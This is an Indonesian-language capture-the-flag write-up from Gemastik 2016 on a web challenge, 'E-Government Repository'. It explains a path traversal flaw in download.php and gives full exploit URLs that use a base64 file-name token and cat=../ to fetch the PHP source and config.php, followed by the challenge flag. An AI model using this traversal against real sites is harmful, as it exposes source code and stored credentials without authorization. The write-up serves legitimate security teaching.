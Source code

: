 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : E-Government Repository - 75"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: Web Exploitation
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![E-Government Repository](/images/egovernment-repository.png)


### Solusi :

Vulnerability terletak pada file download.php yang memungkinkan kita untuk mendownload file .php nya sendiri.
untuk mendownload file di butuhkan 3 parameter.

`file=NAMAFILE` , `token=BASE64(NAMAFILE)` , `cat=DIREKTORI`

jadi untuk mendownload file download.php kita sesuaikan 3 parameter tersebut.

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../)

kemudian download file `config.php`

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../)

**Flag : ** `GEMASTIK{The_Panama_Papers_are_the_largest_data_leak_and_caused_by_LFI}`



